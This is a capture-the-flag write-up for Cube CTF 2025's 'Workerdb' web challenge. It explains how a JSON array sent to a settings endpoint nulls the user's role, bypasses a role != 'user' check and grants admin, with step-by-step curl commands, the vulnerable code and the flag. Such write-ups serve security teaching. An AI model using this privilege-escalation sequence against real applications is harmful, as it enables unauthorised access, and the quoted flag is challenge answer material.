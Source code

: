# CTF Writeup: Workerdb

**Author:** Mohamed Armaoui - C4spr0x1A

## Challenge Details
| Category       | Web Exploitation |
|----------------|------------------|
| Challenge Name | Workerdb         |
| CTF Event      | Cube CTF 2025    |
| Flag           | `cube{putt1ng_1n_th3_h0urs_pays_0ff_31530cdc}` |

## Solution

This writeup details my approach to solving the "Workerdb" CTF challenge, which involved exploiting a series of business logic vulnerabilities in an e-commerce application.

### TL;DR

A flawed settings/update endpoint zeroes any attribute I sent, then in its second pass threw an exception on malformed JSON, leaving my role as null. Because null != "user", the permission-check in `/api/manage/permissions` let me promote myself to admin, and then I could retrieve the flag from `/api/admin`.

### 1. Recon

1.  Review the code (`app.py`): endpoints:
    *   `/api/register`, `/api/login`
    *   `/api/settings/update` (wipes and reassigns attributes)
    *   `/api/manage/permissions` (checks `role != 'user'`)
    *   `/api/admin` (returns flag if `role == 'admin'`)

2.  Key observations:
    *   `update_settings`:
        ```python
        for key in new_attrs:
            if key in current_attrs:
                temp_attrs[key] = None  # first write
        ...
        for key, value in new_attrs.items():  # second pass
            if key in ALLOWED_ATTRIBUTES:
                if not has_xss(value):
                    sanitized_attrs[key] = value
        ...
        final_attrs['role'] = 'user'  # forces role back, but only if new_attrs is dict
        ```
    *   If `new_attrs` is not a dict (e.g. a JSON list), `new_attrs.items()` raises `AttributeError` after the first write.
    *   Manage endpoint checks if `current_user_attrs.get('role') != 'user'`: to allow role changes.

### 2. Register & Login

```bash
curl -s -X POST http://workerdb.chal.cubectf.com:5500/api/register \
  -H 'Content-Type: application/json' \
  -d '{"username":"hacker","password":"letmein"}'

curl -si -X POST http://workerdb.chal.cubectf.com:5500/api/login \
  -H 'Content-Type: application/json' \
  -d '{"username":"hacker","password":"letmein"}' \
  --cookie-jar cookies.txt
```

This yielded a session cookie identifying my `user_id` and `role: "user"`.

### 3. Nullifying the `role`

I sent a JSON *array* instead of an object to `/api/settings/update`:

```bash
curl -si -X POST http://workerdb.chal.cubectf.com:5500/api/settings/update \
  -H 'Content-Type: application/json' \
  -b cookies.txt \
  -d '["role"]'
```

*   First pass (inside the transaction) set `role = NULL` in the DB.
*   `db.commit()` happened here.
*   Second pass tried `new_attrs.items()`, crashed with `AttributeError` (list has no `.items()`).
*   Flask returned 500, but my role remained `NULL` in the DB.

I could verify this via the UI or by pulling `/` and inspecting the role row (it disappeared or showed blank).

### 4. Permission Escalation

With `role == NULL` (which is not equal to 'user'), the manage-permissions check passed:

```bash
curl -s -X POST http://workerdb.chal.cubectf.com:5500/api/manage/permissions \
  -H 'Content-Type: application/json' \
  -b cookies.txt \
  -d '{"target_user":"hacker","new_role":"admin"}'
```

Response:

`{"message":"Permissions updated successfully"}`

This wrote my `attributes.role = "admin"` in the database.

### 5. Retrieving the Flag

Finally, I accessed the admin endpoint:

```bash
curl -s http://workerdb.chal.cubectf.com:5500/api/admin -b cookies.txt
```

Response:

```json
{
  "message": "Welcome to the admin panel",
  "flag": "cube{putt1ng_1n_th3_h0urs_pays_0ff_31530cdc}"
}
```

—or— I could visit in my browser:

`http://workerdb.chal.cubectf.com:5500/admin`

### 6. Lessons Learned

*   Don’t trust JSON types: unvalidated shapes can break logic.
*   Exception handling matters: uncaught errors left me in a halfway state.
*   Role-check pitfalls: `NULL != 'user'` allowed bypass.